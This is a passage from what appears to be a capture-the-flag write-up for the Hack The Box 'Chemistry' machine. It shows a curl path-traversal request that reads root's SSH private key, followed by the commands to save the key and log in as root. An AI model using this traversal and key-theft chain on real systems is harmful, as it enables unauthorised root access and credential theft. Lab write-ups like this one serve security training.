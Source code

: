 Okay, the path traversal exploit does work, but let's actually get root access on the machine to obtain the flag

```bash
curl --path-as-is http://localhost:8080/assets/../../../root/.ssh/id_rsa
```

Save & set the correct permission on the private key

```bash
nano id_rsa
```

```bash
chmod 600 id_rsa
```

Now SSH as root!

```bash
ssh -i id_rsa root@10.10.11.38
```

![Root](/assets/images/HTB%20-%20Chemistry/Root%20Chemistry.png)
